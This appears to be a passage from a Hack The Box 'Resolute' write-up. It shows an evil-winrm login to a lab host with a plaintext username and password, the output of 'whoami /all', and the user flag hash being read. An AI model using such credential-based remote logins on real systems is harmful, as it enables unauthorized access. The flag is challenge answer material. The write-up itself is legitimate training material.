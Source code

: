 ```text
zweilos@kalimaa:~/htb/resolute$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

I'm in!

```text
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ===============================================
megabank\melanie S-1-5-21-1392959593-3013219662-3596683436-10101


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

*Evil-WinRM* PS C:\Users\melanie\Desktop> cat user.txt
fc92144f24a8510dd36ac3aa890611ee
```